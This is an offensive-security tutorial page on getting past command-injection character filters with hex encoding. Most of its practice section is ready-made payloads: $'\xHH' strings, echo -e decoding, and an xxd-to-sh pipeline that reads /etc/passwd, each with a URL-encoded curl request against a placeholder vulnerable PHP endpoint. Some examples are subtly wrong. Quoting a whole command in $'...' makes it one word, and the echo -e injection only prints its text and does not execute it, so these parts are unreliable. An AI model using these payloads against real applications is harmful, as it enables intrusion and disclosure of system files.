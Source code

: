 ```yaml
---
title: Bypass Characters Filter with Hex Encoding Techniques
description: Learn how to leverage hex encoding to bypass character filters in web
  applications using command injection techniques.
keywords:
- hex encoding
- command injection
- character filter bypass
- hexadecimal encoding
- decoding payloads
- shell syntax
- xxd tool
- echo command
---
```


# Bypass Characters Filter Via Hex Encoding

## Context

When leveraging command injection vulnerabilities in web applications, attackers often encounter input filters designed to block dangerous characters. One effective technique to bypass these filters is using hex encoding, which can obfuscate special characters by representing them in hexadecimal form. This article will provide detailed steps and techniques for bypassing character filters using hex encoding in command injection exploits. Readers should have a solid understanding of hexadecimal encoding, character encoding, and basic command execution principles.

## Theory

### Hexadecimal Encoding in Command Injection

Hexadecimal encoding is a method of representing characters using a base-16 numeral system. In the context of command injection, prohibited characters can be represented as `\xHH`, where `HH` denotes the character's hexadecimal value. For example, the space character can be encoded as `\x20`. Attackers can exploit filter deficiencies that block direct character inputs but fail to decode their hex-encoded counterparts. The key attack sequence involves encoding restricted characters into hex to sidestep filters and decoding them when the command is executed.

### Hex String Representation in Shells

Some shell environments, like Bash, support decoding hex-encoded strings at runtime using the `$'\\xHH'` syntax. This feature is particularly useful when exploiting web applications that inadequately handle user-provided input sent to shell commands. By encoding characters in hex and wrapping them in this syntax, attackers can bypass application filters and allow commands to execute as intended within the shell.

### Payload Reconstruction via echo and xxd

The `echo -e` command is a powerful shell utility that interprets escape sequences, including hex codes, converting them into respective characters. When deploying more complex payloads, tools like `xxd` can decode hex strings into raw bytes. `xxd` can reverse a hex string back into its original form using the `-r` flag, which is particularly useful when combined with piping and shell execution commands. This technique involves crafting a hex-encoded payload, using `echo` or `xxd` to decode it at command execution time.

## Practice

### Bypassing Filters with $'\\xHH' Shell Syntax

One method of bypassing filters is by utilizing the `$'\\xHH'` syntax to encode and decode shell commands.

- **Payload without Hex Encoding:**  
  ```plaintext
  $'cat /etc/passwd'
  ```
  Direct attempt may be blocked by filters.

- **Hex Encoded Payload:**  
  ```plaintext
  $'cat\x20/etc/passwd'
  ```
  Here, the space character is encoded as `\x20`.

- **Inject Using `curl`:**
  ```bash
  curl -G 'http://target/vuln.php?cmd=$%27cat%5Cx20%2Fetc%2Fpasswd%27'
  ```

  This command injects the hex-encoded payload to bypass the filter. Upon success, the system executes the `cat /etc/passwd` command.

### Bypassing Filters Using echo -e for Hex Decoding

This technique involves using `echo -e` to decode hex payloads into legitimate commands.

- **Hex-encoded Command to Decode:**
  ```plaintext
  echo -e '\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'
  ```
  This decodes to `cat /etc/passwd`.

- **Inject Using `curl`:**
  ```bash
  curl -G 'http://target/vuln.php?cmd=echo%20-e%20%27%5Cx63%5Cx61%5Cx74%5Cx20%5Cx2f%5Cx65%5Cx74%5Cx63%5Cx2f%5Cx70%5Cx61%5Cx73%5Cx73%5Cx77%5Cx64%27'
  ```

  This results in the hex-encoded command being decoded and executed, bypassing character restrictions.

### Bypassing Filters Using xxd for Payload Reconstruction

Utilizing `xxd` offers a robust way to convert hex strings back into executable commands or scripts.

- **Decoding Hex String with xxd:**
  ```plaintext
  echo 636174202f6574632f706173737764 | xxd -r -p | sh
  ```
  This transforms and executes the payload `cat /etc/passwd`.

- **Inject Using `curl`:**
  ```bash
  curl -G 'http://target/vuln.php?cmd=echo%20636174202f6574632f706173737764%20%7C%20xxd%20-r%20-p%20%7C%20sh'
  ```

  This injection decodes the hex string to its original format and then executes it, effectively bypassing the character filter.

## Tools

- **curl**
- **xxd** 

By understanding and applying these techniques, attackers can effectively bypass character filters using hex encoding in vulnerable web applications.
